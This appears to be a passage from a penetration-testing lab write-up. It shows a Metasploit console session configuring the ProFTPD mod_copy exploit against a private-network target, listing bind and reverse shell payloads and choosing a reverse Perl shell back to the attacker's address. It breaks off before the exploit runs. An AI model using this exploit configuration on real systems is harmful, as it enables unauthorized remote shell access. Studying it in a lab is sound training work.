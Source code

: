 ```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html  # Set the path to a writable directory
SITEPATH => /var/www/html
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST 172.28.128.5      # Set the localhost to point to my own IP
LHOST => 172.28.128.5
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show payloads         

Compatible Payloads
===================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  payload/cmd/unix/bind_awk                             normal  No     Unix Command Shell, Bind TCP (via AWK)
   1  payload/cmd/unix/bind_perl                            normal  No     Unix Command Shell, Bind TCP (via Perl)
   2  payload/cmd/unix/bind_perl_ipv6                       normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   3  payload/cmd/unix/generic                              normal  No     Unix Command, Generic Command Execution
   4  payload/cmd/unix/reverse_awk                          normal  No     Unix Command Shell, Reverse TCP (via AWK)
   5  payload/cmd/unix/reverse_perl                         normal  No     Unix Command Shell, Reverse TCP (via Perl)
   6  payload/cmd/unix/reverse_perl_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   7  payload/cmd/unix/reverse_python                       normal  No     Unix Command Shell, Reverse TCP (via Python)
   8  payload/cmd/unix/reverse_python_ssl                   normal  No     Unix Command Shell, Reverse TCP SSL (via python)

msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set PAYLOAD 5               # Use reverse_perl cmd payload
PAYLOAD => cmd/unix/reverse_perl
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options        

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.28.128.3     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www/html    yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.28.128.5     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:
```